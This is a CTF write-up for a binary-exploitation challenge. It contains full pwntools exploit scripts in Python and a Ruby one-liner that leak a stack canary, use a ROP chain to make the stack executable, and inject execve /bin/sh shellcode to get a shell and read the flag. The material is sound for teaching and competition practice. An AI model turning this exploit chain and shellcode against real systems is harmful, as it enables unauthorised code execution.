 # Pwn - Start

> Writeup by feignix (Paras Chetal)


## Summary

### Binary: [start](start)
### Protections: Canary, NX, ASLR

### Steps:

* Leak canary
* Overwrite ret addr with ROP chain
* In the ROP chain:
  * Set global value stack_prot to 7
  * Call dl_make_stack_exec with libc_stack_end as argument to make stack executable (ref: http://radare.today/posts/defeating-baby_rop-with-radare2/ )
  * Call read again to read execve /bin/sh shellcode onto the stack
  * ret to the shellcode
* Send 'exit\n' to cause ROP chain to be executed

### [Exploit](exp.py)
```from pwn import *
context.terminal = 'terminator'
context.log_level = 'debug'

p = remote('127.0.0.1', 31338)
#gdb.attach(p)
#pause()

p.sendline('A'*24)
#pause()

p.recvuntil('A'*24)

currupted_canary = p.recv(8)
fixed_canary = '\x00' + currupted_canary[1::]

corr_y = p.recv(3)
y = corr_y + '\x00'*5

p.recvline()

p.sendline('A'*63)
o = p.recv(1024).split('\n')[1]
shellcode_addr = o+"\x00"*2

mr = p64(0x00000000004683b0)
mrr = p64(0x0000000000417b21)
prdxret = p64(0x0000000000443776)
stack_prot = p64(0x00000000006CBFE0)

payload = 'B'*24 + fixed_canary + y + prdxret + stack_prot + mr + mrr

prdiret = p64(0x00000000004005d5)
libc_stack_end = p64(0x0000000006CBF90)
dl_make_stack_exec = p64(0x0000000004768A0)

payload += prdiret + libc_stack_end + dl_make_stack_exec


nbytes = p64(27)
fdes = p64(0)
read = p64(0x000000000440300)
prsiret = p64(0x00000000004017f7)
prdiret = p64(0x00000000004005d5)

payload += prdxret + nbytes + prsiret + shellcode_addr + prdiret + p64(0) + read + shellcode_addr

p.sendline(payload)

p.sendline('exit')

binsh = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

p.sendline(binsh)

p.interactive()
```

But they wanted a pwntools-ruby script (one line), so sent:

```
z = Sock.new "127.0.0.1", 31338;z.sendline "A"*24;z.recvuntil "A"*24;cc = z.recv 8;fixed_canary = "\x00" + cc[1..-1];c_rbp = z.recv 3;rbp = c_rbp + "\x00"*5;z.recvline;z.sendline "A"*63;o = z.recv(1024).split[1];saddr = u64(o+"\x00"*2)+0x100;mr = p64(0x4683b0);mrr = p64(0x417b21);prdxret = p64(0x443776);sp = p64(0x6CBFE0);pd = 'B'*24 + fixed_canary + rbp + prdxret + sp + mr + mrr;prdiret = p64(0x4005d5);libc_stack_end = p64(0x6CBF90);dl_make_stack_exec = p64(0x4768A0);pd += prdiret + libc_stack_end + dl_make_stack_exec;nbytes = p64(27);fdes = p64(0);read = p64(0x440300);prsiret = p64(0x4017f7);prdiret = p64(0x4005d5);pd += prdxret + nbytes + prsiret + p64(saddr) + prdiret + p64(0) + read + p64(saddr);z.sendline pd;p z.recvline;z.sendline 'exit';binsh = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";z.sendline binsh;z.sendline "cat home/start/flag";sleep(1);print z.recv 1024;
```
and got the flag: `hitcon{thanks_for_using_pwntools-ruby:D}`